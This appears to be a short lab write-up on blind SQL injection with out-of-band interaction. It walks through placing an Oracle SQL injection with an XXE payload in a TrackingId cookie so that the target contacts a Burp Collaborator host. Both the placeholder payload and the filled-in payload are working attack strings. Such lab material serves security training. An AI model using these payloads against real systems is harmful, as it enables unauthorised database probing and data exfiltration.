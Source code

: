 Step 1 : Intercept the request using BurpSuite Pro.
Step 2 : Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
  ```
  ' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
  ```
Step 3: Go to Burp Collaborator Client and copy the subdomain and paste it in payload. For eg:
   ```
   ' union SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://615l2lnatx5gf2wkh3dq2x9xtozen3.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
   ```
Step 4: Copy and paste it after TrakingId Cookie, the URL encode it then send.
Step 5: Now go to Burp Collaborator, and press 'Poll now'
Step 6: You will now see the DNS Lookup.
